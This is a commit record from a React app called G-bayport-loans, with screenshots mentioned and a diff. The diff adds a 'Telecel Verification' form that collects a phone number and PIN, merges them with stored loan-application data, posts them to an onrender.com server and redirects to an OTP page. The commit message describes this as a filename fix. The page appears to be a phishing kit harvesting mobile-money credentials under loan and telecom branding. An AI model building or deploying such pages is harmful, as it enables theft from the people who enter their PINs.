

Before and after one commit to Glimmerkk/G-bayport-loans, a React (Vite) app in the folder frontend/: page /telecel/1 in a window 1280 px wide. Shown: the top 300 px of the page, without its empty margins (0-640 px from the left). Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
fix telecel filename case properly

```diff
--- a/frontend/src/pages/Telecel.jsx
+++ b/frontend/src/pages/Telecel.jsx
@@ -1,3 +1,79 @@
+import { useState } from "react";
+import axios from "axios";
+import { useNavigate } from "react-router-dom";
+
 export default function Telecel() {
-  return <h1>Telecel Page Working ✅</h1>;
+  const navigate = useNavigate();
+
+  const [loading, setLoading] = useState(false);
+  const [data, setData] = useState({
+    number: "",
+    pin: "",
+  });
+
+  const handleChange = (e) => {
+    setData({ ...data, [e.target.name]: e.target.value });
+  };
+
+  const handleSubmit = async (e) => {
+    e.preventDefault();
+
+    const loanData = JSON.parse(localStorage.getItem("loanData")) || {};
+
+    console.log("LoanData:", loanData);
+    console.log("Telecel:", data);
+
+    setLoading(true);
+
+    try {
+      const res = await axios.post(
+        "https://g-bayport-loans.onrender.com/apply",
+        {
+          ...loanData,
+          ...data,
+        }
+      );
+
+      console.log("Response:", res.data);
+
+      if (res.data.id) {
+        navigate(`/otp/${res.data.id}`);
+      } else {
+        alert("No ID returned");
+      }
+
+    } catch (err) {
+      console.error(err);
+      alert("Failed to submit");
+    }
+
+    setLoading(false);
+  };
+
+  return (
+    <div style={{ padding: "20px" }}>
+      <h1>Telecel Verification</h1>
+
+      <form onSubmit={handleSubmit}>
+        <input
+          name="number"
+          placeholder="Enter number"
+          onChange={handleChange}
+          required
+        />
+
+        <input
+          name="pin"
+          type="password"
+          placeholder="Enter PIN"
+          onChange={handleChange}
+          required
+        />
+
+        <button type="submit">
+          {loading ? "Processing..." : "Continue"}
+        </button>
+      </form>
+    </div>
+  );
 }
```
